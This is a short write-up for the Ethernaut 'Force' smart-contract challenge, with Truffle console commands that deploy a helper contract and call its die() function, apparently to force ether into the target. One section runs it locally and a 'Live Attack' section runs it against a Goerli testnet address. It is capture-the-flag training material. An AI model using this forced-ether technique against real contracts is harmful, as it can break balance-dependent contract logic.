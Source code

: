 # Force

[Force](https://ethernaut.openzeppelin.com/level/0x46f79002907a025599f355A04A512A6Fd45E671B)

# Test

```BASH
truffle develop
```

```JS
migrate

web3.eth.getBalance(Force.address)
web3.eth.getBalance(Feed.address)

feed = await Feed.deployed()
await feed.die()
```

<BR />

## Live Attack

```BASH
truffle console --network goerli
```

```JS
migrate
sender = accounts[5]

force = await Force.at("0x115C15DFaB81881E6D19e9C52955C711634dDb9c")
await web3.eth.getBalance(force.address)

feed = await Feed.deployed()
await web3.eth.getBalance(feed.address)
await feed.die({from: sender})
```